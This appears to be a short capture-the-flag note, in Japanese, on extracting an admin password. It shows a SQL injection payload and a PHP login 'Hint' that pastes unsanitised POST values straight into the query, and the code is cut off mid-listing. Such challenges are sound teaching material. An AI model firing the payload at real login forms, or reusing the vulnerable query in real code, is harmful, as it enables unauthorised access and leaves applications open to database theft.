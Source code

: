 # admin passwordを抽出する．
' or 1=1; SELECT * FROM user WHERE id='admin'

# Hint
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    